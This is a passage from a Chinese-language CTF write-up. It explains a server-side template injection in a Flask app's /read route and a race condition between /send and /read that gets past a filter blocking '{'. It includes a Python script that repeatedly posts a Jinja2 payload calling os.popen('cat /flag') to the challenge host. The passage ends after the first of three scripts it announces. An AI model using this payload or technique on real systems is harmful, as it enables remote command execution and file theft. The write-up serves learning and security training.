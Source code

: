 ```python
	if status is None:
		status = ''
	return render_template("index.html", status=status)


@app.route('/send', methods=['POST'])
def write_message():
	filename = pwd + "/tmp/message.txt"
	message = request.form['message']

	f = open(filename, 'w')
	f.write(message) 
	f.close()

	return redirect('index?status=Send successfully!!')
	
@app.route('/read', methods=['GET'])
def read_message():
	if "{" not in readmsg():
		show = show_msg.replace("{{message}}", readmsg())
		return render_template_string(show)
	return 'waf!!'
	

if __name__ == '__main__':
	app.run(host = '0.0.0.0', port = 5000)
```

可以看到/read路由存在ssti，但是他waf掉了最重要的{

但是可以看到这个/send路由会将传入的信息写入message.txt文件，在访问/read路由的时候则会读取message.txt文件。这么一来我们就可以考虑通过竞争的方式来绕过waf了。竞争思路大概就是我在很短的时间内连续发送两条信息，第一条信息是合法信息，而第二条信息是不合法的，那么就会存在一种情况，当第一条信息通过了判断，接下来要将文件的内容插入到模板中渲染的时候，刚好第二条不合法的信息覆写了message.txt，那么插入模板中的就是第二条不合法的信息了

接下来就是搓脚本发包

三个脚本

poc1

```python
import requests
while True:
    burp0_url = "http://node1.hgame.vidar.club:30762/app/send"
    burp0_headers = {"Cache-Control": "max-age=0", "Accept-Language": "zh-CN,zh;q=0.9", "Origin": "http://node1.hgame.vidar.club:30762", "Content-Type": "application/x-www-form-urlencoded", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Referer": "http://node1.hgame.vidar.club:30762/app/index", "Accept-Encoding": "gzip, deflate, br", "Connection": "keep-alive"}
    burp0_data = {"message": "{{config.__class__.__init__.__globals__['os'].popen('cat /flag').read()}}"}
    res = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
    print(res.status_code)
    
```
